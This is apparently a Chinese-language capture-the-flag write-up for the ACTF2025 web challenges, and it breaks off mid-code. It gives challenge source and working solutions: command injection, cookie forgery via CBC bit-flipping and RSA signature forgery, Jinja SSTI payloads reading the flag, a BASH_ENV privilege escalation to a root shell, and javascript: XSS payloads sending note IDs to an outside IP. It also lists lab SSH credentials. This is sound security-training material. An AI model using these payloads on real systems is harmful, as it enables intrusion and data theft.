








+++
title = "ACTF2025(webAK)"
slug = "actf2025-web-ak"
description = "AK也没进入前十"
date = "2025-04-26T10:15:22"
lastmod = "2025-04-26T10:15:22"
image = ""
license = ""
categories = ["赛题"]
tags = ["ssti", "flask", "xss"]
+++

## ACTF upload

```python
import uuid
import os
import hashlib
import base64
from flask import Flask, request, redirect, url_for, flash, session

app = Flask(__name__)
app.secret_key = os.getenv('SECRET_KEY')


@app.route('/')
def index():
    if session.get('username'):
        return redirect(url_for('upload'))
    else:
        return redirect(url_for('login'))


@app.route('/login', methods=['POST', 'GET'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        if username == 'admin':
            if hashlib.sha256(
                    password.encode()).hexdigest() == '32783cef30bc23d9549623aa48aa8556346d78bd3ca604f277d63d6e573e8ce0':
                session['username'] = username
                return redirect(url_for('index'))
            else:
                flash('Invalid password')
        else:
            session['username'] = username
            return redirect(url_for('index'))
    else:
        return '''
        <h1>Login</h1>
        <h2>No need to register.</h2>
        <form action="/login" method="post">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <label for="password">Password:</label>
            <input type="password" id="password" name="password" required>
            <br>
            <input type="submit" value="Login">
        </form>
        '''


@app.route('/upload', methods=['POST', 'GET'])
def upload():
    if not session.get('username'):
        return redirect(url_for('login'))

    if request.method == 'POST':
        f = request.files['file']
        file_path = str(uuid.uuid4()) + '_' + f.filename
        f.save('./uploads/' + file_path)
        return redirect(f'/upload?file_path={file_path}')

    else:
        if not request.args.get('file_path'):
            return '''
            <h1>Upload Image</h1>

            <form action="/upload" method="post" enctype="multipart/form-data">
                <input type="file" name="file">
                <input type="submit" value="Upload">
            </form>
            '''

        else:
            file_path = './uploads/' + request.args.get('file_path')
            if session.get('username') != 'admin':
                with open(file_path, 'rb') as f:
                    content = f.read()
                    b64 = base64.b64encode(content)
                    return f''
            else:
                os.system(f'base64 {file_path} > /tmp/{file_path}.b64')
                # with open(f'/tmp/{file_path}.b64', 'r') as f:
                #     return f''
                return 'Sorry, but you are not allowed to view this image.'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

账号密码是`admin\backdoor`，但是我是万能密码进去的，`admin' or 1=1#`，参数可控直接RCE

```
http://223.112.5.141:54806/upload?file_path=a;ls /|base64> 1.txt;sleep 5;echo aaa
```

```http
GET /upload?file_path=../1.txt HTTP/1.1
Host: 223.112.5.141:54806
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: session=.eJyrVopPy0kszkgtVrKKrlZSKAFSSrmpxcWJ6alKOkqeeWWJOZkpCgWJxcXl-UUpSrG1OlRUFaujVFqcWpSXmJuqZKWUmJKbmaeukF-kYGhrqKxUCwAyuzRM.aAw3TQ.TRAybH09I_N1WdEBSkZ3aCPFzz8
referer: http://223.112.5.141:54806/login
Connection: close


```



## not so web 1

```python
import base64, json, time
import os, sys, binascii
from dataclasses import dataclass, asdict
from typing import Dict, Tuple
from secret import KEY, ADMIN_PASSWORD
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
from flask import (
    Flask,
    render_template,
    render_template_string,
    request,
    redirect,
    url_for,
    flash,
    session,
)

app = Flask(__name__)
app.secret_key = KEY


@dataclass(kw_only=True)
class APPUser:
    name: str
    password_raw: str
    register_time: int


#  In-memory store for user registration
users: Dict[str, APPUser] = {
    "admin": APPUser(name="admin", password_raw=ADMIN_PASSWORD, register_time=-1)
}


def validate_cookie(cookie: str) -> bool:
    if not cookie:
        return False

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False

    if len(cookie_encrypted) < 32:
        return False

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        cookie_json = cipher.decrypt(padded)
    except ValueError:
        return False

    try:
        _ = json.loads(cookie_json)
    except Exception:
        return False

    return True


def parse_cookie(cookie: str) -> Tuple[bool, str]:
    if not cookie:
        return False, ""

    try:
        cookie_encrypted = base64.b64decode(cookie, validate=True)
    except binascii.Error:
        return False, ""

    if len(cookie_encrypted) < 32:
        return False, ""

    try:
        iv, padded = cookie_encrypted[:16], cookie_encrypted[16:]
        cipher = AES.new(KEY, AES.MODE_CBC, iv)
        decrypted = cipher.decrypt(padded)
        cookie_json_bytes = unpad(decrypted, 16)
        cookie_json = cookie_json_bytes.decode()
    except ValueError:
        return False, ""

    try:
        cookie_dict = json.loads(cookie_json)
    except Exception:
        return False, ""

    return True, cookie_dict.get("name")


def generate_cookie(user: APPUser) -> str:
    cookie_dict = asdict(user)
    cookie_json = json.dumps(cookie_dict)
    cookie_json_bytes = cookie_json.encode()
    iv = os.urandom(16)
    padded = pad(cookie_json_bytes, 16)
    cipher = AES.new(KEY, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(padded)
    return base64.b64encode(iv + encrypted).decode()


@app.route("/")
def index():
    if validate_cookie(request.cookies.get("jwbcookie")):
        return redirect(url_for("home"))
    return redirect(url_for("login"))


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        user_name = request.form["username"]
        password = request.form["password"]
        if user_name in users:
            flash("Username already exists!", "danger")
        else:
            users[user_name] = APPUser(
                name=user_name, password_raw=password, register_time=int(time.time())
            )
            flash("Registration successful! Please login.", "success")
            return redirect(url_for("login"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if username in users and users[username].password_raw == password:
            resp = redirect(url_for("home"))
            resp.set_cookie("jwbcookie", generate_cookie(users[username]))
            return resp
        else:
            flash("Invalid credentials. Please try again.", "danger")
    return render_template("login.html")


@app.route("/home")
def home():
    valid, current_username = parse_cookie(request.cookies.get("jwbcookie"))
    if not valid or not current_username:
        return redirect(url_for("logout"))

    user_profile = users.get(current_username)
    if not user_profile:
        return redirect(url_for("logout"))

    if current_username == "admin":
        payload = request.args.get("payload")
        html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">Welcome, %s !</h2>
        <div class="text-center">
            Your payload: %s
        </div>
        
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
""" % (
            current_username,
            payload,
        )
    else:
        html_template = (
            """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">server code (encoded)</h2>
        <div class="text-center" style="word-break:break-all;">
        {%% raw %%}
            %s
        {%% endraw %%}
        </div>
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
"""
            % base64.b64encode(open(__file__, "rb").read()).decode()
        )
    return render_template_string(html_template)


@app.route("/logout")
def logout():
    resp = redirect(url_for("login"))
    resp.delete_cookie("jwbcookie")
    return resp


if __name__ == "__main__":
    app.run()

```

有个Cookie需要伪造，伪造之后就可以直接SSTI，去年做过一道题是CBC反转攻击，但是当时觉得和web没啥关系，用`zdmin`注册，提取`iv`和`cipher`，修改iv的第10位 让`z`变成`a`

```python
import base64

real_cookie = "QoDwG/9kDHXCOxo4naDdmQedJkBMc3OZbZ968N6mUk1AzO6Fra+1Q1pGVEHQ5s1Ml/ZEoqER29biMoTfje0oczUSPbs5gJChRsTKWGBVSXet+SDeiRV75m2w/YbSWQXq"
cookie = base64.b64decode(real_cookie)
print(cookie)
iv = bytearray(cookie[:16])
cipher = bytearray(cookie[16:])

iv[10] ^= (ord('z') ^ ord('a'))

iv = bytes(iv)
cipher = bytes(cipher)
res = base64.b64encode(iv + cipher).decode()
print(res)
```

```
http://61.147.171.105:50002/home?payload={{g.pop.__globals__.__builtins__['__import__']('os').popen('cat flag.txt').read()}}
```

## not so web 2

```python
import base64, json, time
import os, sys, binascii
from dataclasses import dataclass, asdict
from typing import Dict, Tuple
from secret import KEY, ADMIN_PASSWORD
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Hash import SHA256
from flask import (
    Flask,
    render_template,
    render_template_string,
    request,
    redirect,
    url_for,
    flash,
    session,
    abort,
)

app = Flask(__name__)
app.secret_key = KEY

if os.path.exists("/etc/ssl/nginx/local.key"):
    private_key = RSA.importKey(open("/etc/ssl/nginx/local.key", "r").read())
else:
    private_key = RSA.generate(2048)

public_key = private_key.publickey()


@dataclass
class APPUser:
    name: str
    password_raw: str
    register_time: int


#  In-memory store for user registration
users: Dict[str, APPUser] = {
    "admin": APPUser(name="admin", password_raw=ADMIN_PASSWORD, register_time=-1)
}


def validate_cookie(cookie_b64: str) -> bool:
    valid, _ = parse_cookie(cookie_b64)
    return valid


def parse_cookie(cookie_b64: str) -> Tuple[bool, str]:
    if not cookie_b64:
        return False, ""

    try:
        cookie = base64.b64decode(cookie_b64, validate=True).decode()
    except binascii.Error:
        return False, ""

    try:
        msg_str, sig_hex = cookie.split("&")
    except Exception:
        return False, ""

    msg_dict = json.loads(msg_str)
    msg_str_bytes = msg_str.encode()
    msg_hash = SHA256.new(msg_str_bytes)
    sig = bytes.fromhex(sig_hex)
    try:
        PKCS1_v1_5.new(public_key).verify(msg_hash, sig)
        valid = True
    except (ValueError, TypeError):
        valid = False
    return valid, msg_dict.get("user_name")


def generate_cookie(user: APPUser) -> str:
    msg_dict = {"user_name": user.name, "login_time": int(time.time())}
    msg_str = json.dumps(msg_dict)
    msg_str_bytes = msg_str.encode()
    msg_hash = SHA256.new(msg_str_bytes)
    sig = PKCS1_v1_5.new(private_key).sign(msg_hash)
    sig_hex = sig.hex()
    packed = msg_str + "&" + sig_hex
    return base64.b64encode(packed.encode()).decode()


@app.route("/")
def index():
    if validate_cookie(request.cookies.get("jwbcookie")):
        return redirect(url_for("home"))
    return redirect(url_for("login"))


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "POST":
        user_name = request.form["username"]
        password = request.form["password"]
        if user_name in users:
            flash("Username already exists!", "danger")
        else:
            users[user_name] = APPUser(
                name=user_name, password_raw=password, register_time=int(time.time())
            )
            flash("Registration successful! Please login.", "success")
            return redirect(url_for("login"))
    return render_template("register.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        if username in users and users[username].password_raw == password:
            resp = redirect(url_for("home"))
            resp.set_cookie("jwbcookie", generate_cookie(users[username]))
            return resp
        else:
            flash("Invalid credentials. Please try again.", "danger")
    return render_template("login.html")


@app.route("/home")
def home():
    valid, current_username = parse_cookie(request.cookies.get("jwbcookie"))
    if not valid or not current_username:
        return redirect(url_for("logout"))

    user_profile = users.get(current_username)
    if not user_profile:
        return redirect(url_for("logout"))

    if current_username == "admin":
        payload = request.args.get("payload")
        if payload:
            for char in payload:
                if char in "'_#&;":
                    abort(403)
                    return

        html_template = """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">Welcome, %s !</h2>
        <div class="text-center">
            Your payload: %s
        </div>
        
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
""" % (
            current_username,
            payload,
        )
    else:
        html_template = (
            """
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Home</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <link rel="stylesheet" href="{{ url_for('static', filename='styles.css') }}">
</head>
<body>
    <div class="container">
        <h2 class="text-center">server code (encoded)</h2>
        <div class="text-center" style="word-break:break-all;">
        {%% raw %%}
            %s
        {%% endraw %%}
        </div>
        <div class="text-center">
            <a href="/logout" class="btn btn-danger">Logout</a>
        </div>
    </div>
</body>
</html>
"""
            % base64.b64encode(open(__file__, "rb").read()).decode()
        )
    return render_template_string(html_template)


@app.route("/logout")
def logout():
    resp = redirect(url_for("login"))
    resp.delete_cookie("jwbcookie")
    return resp


if __name__ == "__main__":
    app.run()

```

让人机把Cookie伪造部分解了

```python
import base64
import json
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
import gmpy2

# 原始Cookie参数
original_data = {
    "user_name": "test",
    "login_time": 1745656526
}

# 目标伪造数据
forged_data = {
    "user_name": "admin",  # 修改用户名
    "login_time": original_data["login_time"]  # 保持时间戳不变
}

# 生成目标消息的哈希
msg_str = json.dumps(forged_data, separators=(',', ':'))  # 紧凑格式
msg_hash = SHA256.new(msg_str.encode()).digest()

# 构造ASN.1头
asn1_prefix = bytes.fromhex('3031300d060960864801650304020105000420')

# 构建伪造的签名结构
prefix = b'\x00\x01' + b'\xff' * (128 - len(asn1_prefix) - 32 - 3)  # 调整填充长度
trailer = b'\x00' + asn1_prefix + msg_hash
forged_payload = prefix + trailer

# 转换为整数并开e次方根
forged_int = int.from_bytes(forged_payload, 'big')
e = 65537  # 默认RSA指数
root, exact = gmpy2.iroot(forged_int, e)

if not exact:
    root += 1  # 向上取整

# 生成伪造签名
forged_sig = root.to_bytes(256, 'big').hex()

# 构建完整Cookie
packed = f"{msg_str}&{forged_sig}"
b64_cookie = base64.b64encode(packed.encode()).decode()

print("伪造的Admin Cookie:")
print(b64_cookie)
```

拿到Cookie之后绕过黑名单即可，我一开始还没看到



```
https://223.112.5.141:59109/home?payload={{(lipsum|attr(request.values.a)|attr(request.values.b)(request.values.c)|attr(request.values.d)(request.values.e)).read()}}&a=__globals__&b=__getitem__&c=os&d=popen&e=cat flag.txt
```

## Hard guess

```
ssh KatoMegumi@61.147.171.105 -p 59808
Megumi960923
```

suid位发现一个文件`/opt/hello`



可以环境变量提权，但是要利用bash劫持，看了一下P牛的利用bash任意RCE的文章，没看太懂但是也懂个大概，一直尝试

```bash
KatoMegumi@dda5fd7b2a01:/tmp$ echo $BASH_VERSION
5.0.3(1)-release
KatoMegumi@dda5fd7b2a01:/tmp$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
uid=1000(KatoMegumi) gid=1000(KatoMegumi) groups=1000(KatoMegumi)
```

那就用`env $'BASH_FUNC_echo%%=() { id; }' bash -c 'echo hello'`，但是还是没有成功，这里我如果把`BASH_ENV`设置为自己的话，是否成功呢

```
echo 'exec /bin/bash -p' > /tmp/exploit && chmod +x /tmp/exploit
export BASH_ENV=/tmp/exploit
/opt/hello
cat /root/flag
```

拿下三血

## eznote

看着是XSS

```js
const express = require('express')
const session = require('express-session')
const { randomBytes } = require('crypto')
const fs = require('fs')
const spawn = require('child_process')
const path = require('path')
const { visit } = require('./bot')
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');

const DOMPurify = createDOMPurify(new JSDOM('').window);

const LISTEN_PORT = 3000
const LISTEN_HOST = '0.0.0.0'

const app = express()

app.set('views', './views')
app.set('view engine', 'html')
app.engine('html', require('ejs').renderFile)

app.use(express.urlencoded({ extended: true }))

app.use(session({
    secret: randomBytes(4).toString('hex'),
    saveUninitialized: true,
    resave: true,

}))

app.use((req, res, next) => {
    if (!req.session.notes) {
        req.session.notes = []
    }
    next()
})

const notes = new Map()

setInterval(() => { notes.clear() }, 60 * 1000);

function toHtml(source, format){
    if (format == undefined) {
        format = 'markdown'
    }
    let tmpfile = path.join('notes', randomBytes(4).toString('hex'))
    fs.writeFileSync(tmpfile, source)
    let res = spawn.execSync(`pandoc -f ${format} ${tmpfile}`).toString()
    // fs.unlinkSync(tmpfile)
    return DOMPurify.sanitize(res)
}

app.get('/ping', (req, res) => {
    res.send('pong')
})

app.get('/', (req, res) => {
    res.render('index', { notes: req.session.notes })
})

app.get('/notes', (req, res) => {
    res.send(req.session.notes)
})

app.get('/note/:noteId', (req, res) => {
    let { noteId } = req.params
    if(!notes.has(noteId)){
        res.send('no such note')
        return
    } 
    let note = notes.get(noteId)
    res.render('note', note)
})

app.post('/note', (req, res) => {
    let noteId = randomBytes(8).toString('hex')
    let { title, content, format } = req.body
    if (!/^[0-9a-zA-Z]{1,10}$/.test(format)) {
        res.send("illegal format!!!")
        return
    }
    notes.set(noteId, {
        title: title,
        content: toHtml(content, format)
    })
    req.session.notes.push(noteId)
    res.send(noteId)
})

app.get('/report', (req, res) => {
    res.render('report')
})

app.post('/report', async (req, res) => {
    let { url } = req.body
    try {
        await visit(url)
        res.send('success')
    } catch (err) {
        console.log(err)
        res.send('error')
    }
})

app.listen(LISTEN_PORT, LISTEN_HOST, () => {
    console.log(`listening on ${LISTEN_HOST}:${LISTEN_PORT}`)
})
```

```js
const puppeteer = require('puppeteer')
const process = require('process')
const fs = require('fs')

const FLAG = (() => {
    let flag = 'flag{test}'
    if (fs.existsSync('flag.txt')){
        flag = fs.readFileSync('flag.txt').toString()
        fs.unlinkSync('flag.txt')
    } 
    return flag
})()

const HEADLESS = !!(process.env.PROD ?? false)

const sleep = (sec) => new Promise(r => setTimeout(r, sec * 1000))

async function visit(url) {
    let browser = await puppeteer.launch({
        headless: HEADLESS,
        executablePath: '/usr/bin/chromium',
        args: ['--no-sandbox'],
    })
    let page = await browser.newPage()

    await page.goto('http://localhost:3000/')

    await page.waitForSelector('#title')
    await page.type('#title', 'flag', {delay: 100})
    await page.type('#content', FLAG, {delay: 100})
    await page.click('#submit', {delay: 100})

    await sleep(3)
    console.log('visiting %s', url)

    await page.goto(url)
    await sleep(30)
    await browser.close()
}

module.exports = {
    visit
}
```



并且得知`dompurify`版本并且是默认配置的，无法绕过，先随便测试一下`<p>test</p>`，这个是可以正常用html解析的，然后X了一下午的note，发现不太可能拿到Cookie，并且也没办法绕过，转头去查



也没有查出来，后面测试发现`JavaScript`协议在`/report`没被过滤

```
javascript:fetch('/notes').then(r=>location='http://156.238.233.93:9999/?flag=1')

javascript:fetch('/notes').then(r=>r.json()).then(ids=>ids.forEach(id=>fetch('http://156.238.233.93:9999?id='+id)))
```

上面是最终payload，测试的时候，发现https的都不行，request网站，webhook，以及https的自己的服务器



## Excellent-Site

```python
import smtplib 
import imaplib
import email
import sqlite3
from urllib.parse import urlparse
import requests
from email.header import decode_header
from flask import *

app = Flask(__name__)

def get_subjects(username, password):
    imap_server = "ezmail.org"
    imap_port = 143
    try:
        mail = imaplib.IMAP4(imap_server, imap_port)
        mail.login(username, password)
        mail.select("inbox")
        status, messages = mail.search(None, 'FROM "admin@ezmail.org"')
        if status != "OK":
            return ""
        subject = ""
        latest_email = messages[0].split()[-1]
        status, msg_data = mail.fetch(latest_email, "(RFC822)")
        for response_part in msg_data:
            if isinstance(response_part, tuple):
                msg = email.message_from_bytes(response_part  [1])
                subject, encoding = decode_header(msg["Subject"])  [0]
                if isinstance(subject, bytes):
                    subject = subject.decode(encoding if encoding else 'utf-8')
        mail.logout()
        return subject
    except:
        return "ERROR"

def fetch_page_content(url):
    try:
        parsed_url = urlparse(url)
        if parsed_url.scheme != 'http' or parsed_url.hostname != 'ezmail.org':
            return "SSRF Attack!"
        response = requests.get(url)
        if response.status_code == 200:
            return response.text
        else:
            return "ERROR"
    except:
        return "ERROR"

@app.route("/report", methods=["GET", "POST"])
def report():
    message = ""
    if request.method == "POST":
        url = request.form["url"]
        content = request.form["content"]
        smtplib._quote_periods = lambda x: x
        mail_content = """From: ignored@ezmail.org\r\nTo: admin@ezmail.org\r\nSubject: {url}\r\n\r\n{content}\r\n.\r\n"""
        try:
            server = smtplib.SMTP("ezmail.org")
            mail_content = smtplib._fix_eols(mail_content)
            mail_content = mail_content.format(url=url, content=content)
            server.sendmail("ignored@ezmail.org", "admin@ezmail.org", mail_content)
            message = "Submitted! Now wait till the end of the world."
        except:
            message = "Send FAILED"
    return render_template("report.html", message=message)

@app.route("/bot", methods=["GET"])
def bot():
    requests.get("http://ezmail.org:3000/admin")
    return "The admin is checking your advice(maybe)"

@app.route("/admin", methods=["GET"])
def admin():
    ip = request.remote_addr
    if ip != "127.0.0.1":
        return "Forbidden IP"
    subject = get_subjects("admin", "p@ssword")
    if subject.startswith("http://ezmail.org"):
        page_content = fetch_page_content(subject)
        return render_template_string(f"""
                <h2>Newest Advice(from myself)</h2>
                <div>{page_content}</div>
        """)
    return ""

@app.route("/news", methods=["GET"])
def news():
